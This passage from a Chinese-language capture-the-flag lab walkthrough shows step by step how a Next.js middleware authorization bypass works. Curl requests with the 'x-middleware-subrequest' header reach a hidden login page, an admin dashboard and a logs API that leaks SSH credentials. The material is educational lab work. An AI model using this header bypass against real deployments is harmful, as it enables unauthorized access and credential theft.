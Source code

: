 使用漏洞绕过中间件限制：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -H "x-middleware-subrequest: middleware" http://192.168.205.190:3000/secret-login-2025
<!DOCTYPE html><html>...
<title class="jsx-51c627a66454ffc6">Restricted Login | maze-sec</title>
...
```

成功获取到完整的登录页面。

## 3.2 分析前端代码获取凭据

下载并分析登录页面的 JavaScript 文件：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ curl -H "x-middleware-subrequest: middleware" http://192.168.205.190:3000/_next/static/chunks/pages/secret-login-2025-2d3e58ee9a68cbe4.js -o login.js

┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ cat login.js | grep password
...console.log("Login attempt:",{username:r,password:c})...
```

代码显示登录信息会通过 console.log 输出，成功登录后会跳转到 `/admin/dashboard`。

## 3.3 访问管理面板获取日志

继续使用漏洞访问管理面板：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -H "x-middleware-subrequest: middleware" http://192.168.205.190:3000/admin/dashboard
...
<h3 class="jsx-11905641757d090">System Logs</h3>
<p class="jsx-11905641757d090">Review system activity (contains sensitive data).</p>
...
```

发现系统日志功能，直接访问日志 API：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ curl -H "x-middleware-subrequest: middleware" http://192.168.205.190:3000/api/logs | grep password
...
"2025-09-12 10:07:12 - Successful login: c1trus with password MazeSecure@2025!"
"2025-09-12 10:20:09 - Database backup: user=c1trus_db_admin, pass=MazeDB2025!"
...
```

成功获取到 SSH 登录凭据：

- 用户名：`c1trus`
- 密码：`MazeSecure@2025!`
